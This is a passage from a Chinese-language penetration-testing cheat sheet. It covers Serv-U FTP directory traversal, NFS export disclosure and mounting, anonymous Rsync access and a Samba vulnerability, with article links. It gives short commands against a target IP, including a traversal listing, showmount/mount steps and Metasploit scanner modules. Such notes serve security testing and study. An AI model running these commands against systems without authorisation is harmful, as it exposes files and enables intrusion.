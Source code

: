 **Serv-U FTP Server 目录遍历漏洞**
- 文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- 示例
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

### nfs
**文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- 示例
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

### Rsync
**未授权访问**
- 文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- 示例

    `rsync <目标IP>::`

- MSF 模块
    ```bash
    use auxiliary/scanner/rsync/modules_list
    set rhosts <目标ip>
    run
    ```

### samba
**CVE-2015-0240**
- 文章
    - [Samba CVE-2015-0240 远程代码执行漏洞利用实践](https://www.secpulse.com/archives/5975.html)
